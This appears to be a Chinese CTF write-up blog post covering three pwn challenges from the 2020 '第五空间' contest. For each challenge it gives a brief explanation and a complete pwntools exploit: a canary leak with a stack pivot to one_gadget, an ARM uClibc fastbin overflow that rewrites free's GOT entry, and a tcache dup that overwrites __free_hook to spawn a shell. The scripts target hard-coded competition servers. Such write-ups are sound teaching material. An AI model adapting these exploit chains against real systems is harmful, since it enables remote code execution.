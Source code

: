 ```yaml
---
title: 第五空间 2020 Pwn
date: 2020-06-25 00:00:00
categories:
- CTF/Pwn
tags: 栈溢出 堆溢出 UAF
---
```


三道题的题目附件：[5space_attachment.zip](https://xuanxuanblingbling.github.io/assets/pwn/5space_attachment.zip)

## twice

带canary的栈溢出，可以通过puts泄露栈溢出并且出题人会修好溢出泄露时对canary最后一个0字节的破坏。第二次输入时即可栈溢出劫持返回地址，但是因为溢出长度受限无法直接ROP。通过劫持到leave上，进行栈迁移，到输入的缓冲区上进而完成ROP。在ROP中，首先通过puts泄露GOT表进而泄露libc，然后将程序控制流返回到_start上进而继续栈溢出即可劫持控制流到one_gadget上，进而完成控制流劫持。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
io = remote("121.36.59.116",9999)
uu64    = lambda data   :u64(data.ljust(8, b'\0'))

# leak canary and stack
io.recvuntil(">");io.send("a"*89);io.recv(89)
canary = uu64('\x00'+io.recv(7))
stack = uu64(io.recv(6))

# stack overflow to leak libc and go back _start
io.recvuntil(">")
payload = p64(0)
payload += p64(0x400923)        # pop rdi
payload += p64(0x601020)        # puts_got
payload += p64(0x4005C0)        # puts
payload += p64(0x400630)        # _start
payload =  payload.ljust(88)    # full the buffer
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(0x400879)        # leave to hijack rsp to buffer addr
io.send(payload)
io.recvline()
libc = uu64(io.recv(6))-0x6f690
log.warn(hex(libc))

# pass the first input
io.recvuntil(">");io.send("a");io.recvuntil(">")

#stack overflow to one gadget
payload = ""
payload = payload.ljust(88)     # fill stack with NULL to satisfy one_gadget
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(libc+0x4526a)    # one_gadget
io.send(payload)

io.interactive()
```

## pwnme

arm的堆溢出，使用的是uclibc，在bss段构造伪堆块并且通过堆溢出将fastbin的fd指向伪堆块，即可将堆块分配到bss段，通过修改bss段的指针数据，即可泄露libc并且修改got表，最终通过修改free的got表为system，然后free掉一个内容是$0的chunk即可getshell。比赛中并没有搭好环境，以下exp为盲测结果，其中的偏移并不知道为何。

```python
from pwn import *
context(log_level='debug',os='linux',arch='arm')
io = remote('121.36.58.215', 1337)
libc = ELF('./libuClibc-1.0.34.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
show        = lambda                     :  (sla(">>> ","1"))
add         = lambda len,data            :  (sla(">>> ","2"),sla("Length:",str(len)),sla("Tag:",data))
edit        = lambda index,len,data      :  (sla(">>> ","3"),sla("Index:",str(index)),sla("Length:",str(len)),sla("Tag:",data))
delete      = lambda index               :  (sla(">>> ","4"),sla("Tag:",str(index)))

# just try and don't know why to -2
fd = 0x2106c - 8 - 2  
free_got = 0x00021038

# prepare chunks
add(0x40,'a')
add(0x40,'a')
add(0x40,'a')
add(0x40,'$0\x00')

# use heap overflow to modify the fd of fastbin chunk to bss
delete(1)
edit(0,0x88,'a'*0x44+p32(0x48)+p32(fd))

# get the fake chunk and modify bss data to free_got
# just try and don't know why to 34+2
add(0x40,'a')
add(0x40,'a'*(34+2) + p32(free_got))

# print free_got to leak libc
show();io.recvuntil('0 : ')
leak = u32(io.recv(4))
log.success(hex(leak))
libc.address = leak - libc.symbols['free']

# modify free_got to system
edit(0,4,p32(libc.symbols['system']))

# trigger system($0)
delete(3)
io.interactive()
```

## of

libc2.27，有tcache，原题直接给了c源码，在源码中，堆块的使用、申请与释放存在着cookie的保护，使得虽然在释放后存在悬空指针，但是并无法触发UAF或者double free。但是在远程环境中，cookie似乎没有起到任何作用，所以直接通过基本的堆利用的手段，UAF泄露unsorted bin地址以及tcache dup完成泄露libc基址以及任意地址写，最后通过改写__free_hook，完成控制流劫持进而getshell。

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
io = remote('121.36.74.70', 9999)
libc = ELF('./libc-2.27.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
add         = lambda index            	 :  (sla("choice:","1"),sla("Index: ",str(index)))
edit        = lambda index,data          :  (sla("choice:","2"),sla("Index: ",str(index)),sla("Content: ",str(data)))
show        = lambda index            	 :  (sla("choice:","3"),sla("Index: ",str(index)))
delete      = lambda index            	 :  (sla("choice:","4"),sla("Index: ",str(index)))
uu64        = lambda data   :u64(data.ljust(8, b'\0'))

# use unsorted bin to leak libc
for i in range(8): add(i)
for i in range(7): delete(i+1)
delete(0);show(0)
io.recvuntil('Content: ')
libc.address = uu64(io.recv(6))-0x3ebca0

# empty tcache
for i in range(9): add(i)

# use tcache dup to aaw
delete(0)
delete(0)
add(0);edit(0,p64(libc.symbols['__free_hook']))
add(1);
add(2);edit(2,p64(libc.symbols['system']))

# use free(3) trigger system($0)
edit(3,'$0\x00');delete(3)
io.interactive()
```